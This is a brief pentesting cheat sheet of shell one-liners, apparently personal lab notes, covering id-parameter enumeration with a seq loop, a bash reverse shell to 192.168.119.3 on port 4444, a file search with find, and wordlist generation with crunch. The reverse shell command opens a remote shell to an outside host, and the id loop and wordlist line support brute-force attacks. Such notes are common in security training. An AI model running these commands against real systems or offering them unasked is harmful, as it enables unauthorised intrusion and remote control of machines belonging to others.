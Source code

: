 
`for i in $(seq 1 1000); do echo $i >> ids.txt; done` - generates value of id parameter 1-1000

`bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` - utilize to get a reverse shell

`find / -name "readme" 2>/dev/null` - locate a folder and print the location of the folder

`crunch <min> <max> -t <pattern%%%> > wordlist` - generate a wordlist for adhoc usage
